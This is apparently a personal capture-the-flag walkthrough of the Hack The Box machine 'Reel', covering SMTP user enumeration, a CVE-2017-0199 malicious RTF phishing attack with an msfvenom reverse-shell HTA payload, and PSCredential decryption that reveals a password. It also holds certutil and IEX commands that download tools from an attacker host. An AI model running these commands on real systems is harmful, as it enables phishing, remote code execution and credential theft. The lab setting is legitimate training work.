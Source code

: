 ### FTP
```bash
ftp $IP
```
exploit smtp with RTF object from readme.txt

`docx2txt AppLocker.docx`

### Get all ports
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

Open 10.129.1.151:22
Open 10.129.1.151:21
Open 10.129.1.151:25

### SMTP
##### SMTP user enumeration using RCPT and other commands
```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP

smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
```

Try User Enumeration using "RCPT TO". Replace <TARGET-DOMAIN> with the target's domain name:
```bash
hydra smtp-enum://10.129.1.151:25/rcpt -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -o "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Reel/results/10.129.1.151/scans/tcp25/tcp_25_smtp_user-enum_hydra_rcpt.txt" -p $IP
```

##### Nmap script
```bash
nmap --script smtp-enum-users $IP -v -p 25
```

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   RCPT, root
|   RCPT, admin
|   RCPT, administrator
|   RCPT, webadmin
|   RCPT, sysadmin
|   RCPT, netadmin
|   RCPT, guest
|   RCPT, user
|   RCPT, web
|_  RCPT, test

```bash
nmap -p 25 --script smtp-brute $IP -Pn
```

### Back to the ftp documents as above failed
```bash
❯ mv Windows\ Event\ Forwarding.docx WEF.docx
                                                                                                                                                                                            
❯ docx2txt WEF.docx
Failed to extract required information from <WEF.docx>!
                                                                                                                                                                                            
❯ exiftool WEF.docx
```

nico@megabank.com

### RTF cve
At the time of Reel’s release, there was a popular RTF exploit that was being used very commonly in broad-based attacks, CVE-2017-0199. The Metasploit module description does a good job explaining it at a high level:

Description: This module creates a malicious RTF file that when opened in vulnerable versions of Microsoft Word will lead to code execution. The flaw exists in how a olelink object can make a http(s) request, and execute hta code in response. This bug was originally seen being exploited in the wild starting in Oct 2016. This module was created by reversing a public malware sample.
##### without metasploit
0) Prepare the HTA payload with msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f hta-psh > /tmp/alvin.hta` <- x86 make it harder to think about it.
1) Generate malicious RTF file
`python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta`
2) serve it
```bash
cd /tmp 
python3 -m http.server 80
```
3) Start toolkit in exploit mode to deliver local payload <- This won't work since it need the target path to be executed.
```bash XX
python cve-2017-0199_toolkit.py -M exp -t RTF -e http://10.10.16.13/alvin.hta -l /tmp/alvin.hta
```
  So we need to use the `gen` mode to send the email. https://github.com/A1vinSmith/CVE-2017-0199
  ```bash
  python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta
  ```
4) sendEmail
```bash
sendEmail -f foo@megabank.com -t nico@megabank.com -u "U hello" -m "M goodbye" -a invoice.rtf -s $IP -v
``` 

##### metasploit method 1 office_word_hta
##### metasploit method 2 meterpreter with Empire (offical writeup)

# Foothold
```
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```
* https://hashes.com/en/tools/hash_identifier
* https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
hashcat -m 12900 --force -a 0 tom.hash /usr/share/wordlists/rockyou.txt
```

a little offset invest
```
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692
```
```
000000000000000000000000000000000000000000000000000000038421854118412625768408160477112384218541184126257684081604771129b6258eb22fc8b9d08e04e6450f72b98725d7d4fcad6fb6aec4ac2a79d0c6ff738421854118412625768408160477112
```

### PSCredential is the better way to do it
PowerShell has a method for storing encrypted credentials that can only be accessed by the user account that stored them. To retrieve the credential and using it within a script, you read it from the XML file. We will use this method to get the user’s hash.

```
PS C:\Users\lvetrova> $Credential = Import-Clixml -Path "lvetrova.xml"

PS C:\Users\lvetrova> $Credential.GetNetworkCredential().password
```
```c:\ rev
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

### RunAs or ssh
`ssh tom@$IP`

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
Maybe we should re-run Cypher query against other groups we've created.   

### Below follow the 0xdf writeup and ippsec video
```
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.exe 
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.ps1

PS>
IEX(New-Object Net.Webclient).downloadstring("http://10.10.16.13/SharpHound.ps1") Invoke-BloodHound -CollectionMethod All
```
BloodHound not working.

I'll just go with powerview.

`certutil -urlcache -f http://10.10.16.13/powerview.ps1 powerview.ps1`
